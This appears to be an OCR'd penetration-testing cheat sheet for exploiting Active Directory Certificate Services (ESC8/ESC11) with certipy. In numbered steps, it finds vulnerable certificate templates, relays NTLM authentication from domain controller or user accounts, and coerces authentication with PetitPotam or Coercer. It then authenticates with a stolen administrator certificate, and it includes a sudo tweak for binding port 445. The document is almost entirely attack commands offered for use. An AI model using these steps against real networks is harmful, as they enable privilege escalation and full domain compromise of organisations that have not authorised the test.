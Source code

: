 # ADCS ESC8/ESC11

%adcs, certificate, ActiveDirectory, template

## 1. Finding vulnerable template
```
certipy find -u <username> -p '<password>' -target <CA_FQDN> -vulnerable -stdout
```

## 2a. NTLM Relay (Relaying Domain Controller account)
```
certipy relay -target 'https://<IP_ADDRESS>' -template 'DomainController'
```

## 2b. NTLM Relay (Relaying User account)
```
certipy relay -target 'https://<IP_ADDRESS>'
```

## Tip: If you get a 'permission denied' while trying to listen on port 445, you can use the command (on Linux): `echo 0 | sudo tee /proc/sys/net/ipv4/ip_unprivileged_port_start`

## 3. Coerce Authentication with other tool (Petitpotam, Coercer)

## 4. Certipy relays the authentication and requests a certificate

## 5. Authenticate
```
certipy auth -pfx <ADMIN_USER>.pfx -dc-ip <DC_IP>
```
